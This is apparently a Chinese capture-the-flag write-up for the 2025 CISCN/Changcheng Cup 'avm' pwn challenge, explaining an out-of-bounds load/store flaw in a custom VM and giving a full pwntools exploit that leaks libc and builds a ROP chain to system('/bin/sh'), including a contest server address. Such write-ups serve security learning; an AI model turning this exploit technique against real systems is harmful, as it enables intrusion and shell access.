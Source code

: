```yaml
---
title: 国赛 x 长城杯 初赛 - avm
date: 2025/03/17 18:33:00
updated: 2025/03/24 18:33:00
tags:
    - vm
thumbnail: /assets/ciscnxccb2025/errorcode.png
excerpt: 利用程序逻辑错误实现越界存取，通过ROP链获取shell。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序构造了一个类似于mips的vm，在bss上放着vm的结构，包含32个64位寄存器，text地址，
pc和text终结地址。每一条指令都占4字节，布局为5位的dest寄存器，5位的from寄存器，
12位的offset和4位的opcode。opcode共映射到10个函数，其中的`f9`和`f10`对偏移的判断存在逻辑错误：
由于使用`byte`(`unsigned char`)强制转换，导致该式永远成立，因此可以实现越界store和load。

![](/assets/ciscnxccb2025/errorcode.png)

从`main`的返回地址`__libc_start_main`获取libc，从`main`的rbp获取1（程序不支持imm），
然后构造出`pop rdi`、`/bin/sh`和`system`的地址并覆写vm函数的返回地址，实现rop拿shell。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './avm'

ADD     = 1
SUB     = 2
MUL     = 3
DIV     = 4
XOR     = 5
AND     = 6
LSHIFT  = 7
RSHIFT  = 8
STORE   = 9
LOAD    = 10

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *$rebase(0x1afc)\nb *$rebase(0x1aaf)\n')
    else:
        sh = remote('39.105.102.220', 26719)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    # 0x29d90 -> leak; 0x2a3e5 -> pop rdi; 0x1d8678 -> /bin/sh; 0x50d70 -> system
    leak = 0x29d90
    def assemble(buf: bytearray, op: int, dst: int, reg1: int, reg2: int):
        buf.extend(p32((op << 28) + (reg2 << 16) + (reg1 << 5) + dst))

    def construct(buf: bytearray, dst: int, num: int):
        stack = []
        while num:
            stack.append(num & 1)
            num >>= 1
        while stack: # 10110 -> 0 1 1 0 1 -> 10110
            if stack.pop(): # 1
                assemble(buf, ADD, dst, dst, 1)
            if len(stack) > 0:
                assemble(buf, LSHIFT, dst, dst, 1)
        assemble(buf, ADD, dst, dst, 2)

    ops = bytearray()
    assemble(ops, LOAD, 2, 0, 0xd38) # r2 = leak
    assemble(ops, LOAD, 1, 0, 0xd30) # r1 = 1
    construct(ops, 3, 0x2a3e5 - leak) # r3 = pop rdi
    construct(ops, 4, 0x1d8678 - leak) # r4 = /bin/sh
    construct(ops, 5, 0x50d70 - leak) # r5 = system
    construct(ops, 6, 0x2a3e6 - leak) # r6 = ret
    assemble(ops, STORE, 3, 0, 0x118)
    assemble(ops, STORE, 4, 0, 0x120)
    assemble(ops, STORE, 6, 0, 0x128)
    assemble(ops, STORE, 5, 0, 0x130)

    sh.sendafter(b'opcode', bytes(ops))

    sh.clean()
    sh.interactive()
    sh.close()
```

![](/assets/ciscnxccb2025/avmFLAG.png)
